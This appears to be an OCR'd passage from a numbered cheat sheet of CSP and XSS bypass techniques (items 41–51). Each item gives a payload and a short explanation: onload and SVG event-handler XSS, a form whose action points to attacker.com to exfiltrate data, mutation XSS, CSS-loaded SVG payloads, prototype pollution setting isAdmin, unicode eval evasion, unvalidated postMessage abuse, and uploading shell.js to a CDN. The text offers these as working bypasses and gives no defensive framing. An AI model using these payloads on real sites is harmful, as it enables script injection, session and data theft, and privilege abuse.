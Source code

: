 ### 41. Body onload event
**Bypass:** `<body onload="alert(1)">`
**Explanation:** Event attributes on structural elements bypass script-src.

### 42. Form action hijacking
**Bypass:** `<form action="attacker.com"><input></form>` auto-submits
**Explanation:** Without form-action CSP, forms can exfiltrate data.

### 43. Mutation XSS (mXSS)
**Bypass:** Inject: `<svg><svg onload=alert(1)></svg></svg>`; browser normalizes to working payload
**Explanation:** Browser HTML parsing can transform invalid HTML into executable XSS.

### 44. Font data URL exfiltration
**Bypass:** `<style>@font-face { src: url("data:font/woff2;base64,"); }</style>`
**Explanation:** Custom fonts can encode/exfiltrate data through font definitions.

### 45. CSS generated content
**Bypass:** `<style>.class::after { content: url("data:image/svg+xml,<svg onload=alert(1)>"); }</style>`
**Explanation:** CSS content property can load SVG with event handlers.

### 46. Object property pollution
**Bypass:** `window.__proto__.alertFunc = alert; window.config.__proto__.isAdmin = true;`
**Explanation:** Prototype pollution allows overriding trusted variables.

### 47. Regex bypass in DOM verification
**Bypass:** If code checks `if (/eval/.test(code))` but attacker uses `eval + ''` or encoding
**Explanation:** Weak string matching in client-side filters.

### 48. Unicode normalization bypass
**Bypass:** Use different Unicode representations of same character
**Explanation:** `\u0065val` executes same as `eval`; filters using string comparison fail.

### 49. Postmessage abuse without validation
**Bypass:** `window.parent.postMessage({code: "alert(1)"}, "*")`; receiver doesn't validate origin
**Explanation:** Cross-frame communication without origin checking bypasses CSP boundary.

### 50. Service Worker interception
**Bypass:** Service Worker intercepts requests, modifies responses to include inline scripts
**Explanation:** Service Workers can transform CSP-compliant content into XSS.

---

## SECTION 5: FILE UPLOAD & PARSER BYPASSES (51-65)

### 51. Direct file upload to whitelisted CDN
**Bypass:** Upload `shell.js` to `cdn.example.com`, reference as `<script src="cdn.example.com/shell.js">`
**Explanation:** If write permissions on CDN aren't restricted, attacker uploads executable JavaScript.
